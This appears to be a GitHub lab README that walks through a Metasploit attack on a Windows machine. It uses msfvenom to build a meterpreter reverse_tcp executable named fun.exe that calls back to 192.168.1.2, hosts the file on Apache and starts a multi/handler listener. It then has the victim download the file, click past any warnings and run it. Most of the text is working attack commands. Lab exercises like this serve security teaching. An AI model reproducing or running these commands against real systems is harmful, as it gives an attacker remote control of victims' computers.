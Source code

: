 ### PROGRAM:

Find the attackers ip address using ifconfig

### Output:
<img width="1920" height="1057" alt="ifconfig" src="https://github.com/user-attachments/assets/7d6972fe-1791-446f-8eaf-24ebb55f92e7" />



Create a malicious executable file fun.exe using msenom command ``` msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe```

### Output:
<img width="955" height="1045" alt="msfvenom" src="https://github.com/user-attachments/assets/90b11cb1-6e58-4023-bcb0-e8ad0bcd1966" />



copy the fun.exe into the apache ```/var/www/html ```folder

<img width="747" height="136" alt="image" src="https://github.com/user-attachments/assets/fe61944e-1cb4-4d37-84c0-27292ae5522c" />


Start apache server ```sudo systemctl apache2 start``` 
<img width="733" height="157" alt="image" src="https://github.com/user-attachments/assets/b3cee935-dc49-49d2-aa2e-f9387912ae5e" />




Check the status of apache2 ```sudo apache2 status```

<img width="807" height="361" alt="image" src="https://github.com/user-attachments/assets/edb1c435-a376-4f64-acd9-40c372eaced6" />

Invoke msfconsole:
<img width="1920" height="1057" alt="msfconsole" src="https://github.com/user-attachments/assets/ce61d3cc-1160-4a12-b699-7aeee5ddc3eb" />

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.
<img width="955" height="1045" alt="msf help" src="https://github.com/user-attachments/assets/a5f99df9-1062-4100-ae6c-3aede0d45c0e" />


Starting a command and control Server ```use multi/handler``` ```set PAYLOAD windows/meterpreter/reverse_tcp``` ```set LHOST 0.0.0.0``` ```exploit```

### Output 
<img width="811" height="447" alt="image" src="https://github.com/user-attachments/assets/a1744b03-4778-4a66-8980-2064373ed0e2" />


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: ```http://192.168.1.2/fun.exe``` The file "fun.exe" downloads.

<img width="814" height="372" alt="image" src="https://github.com/user-attachments/assets/8fdd703c-3aa6-4a07-982c-80868e08d703" />


Bypass any warning boxes, double-click the file, and allow it to run.
On kali give the command exploit
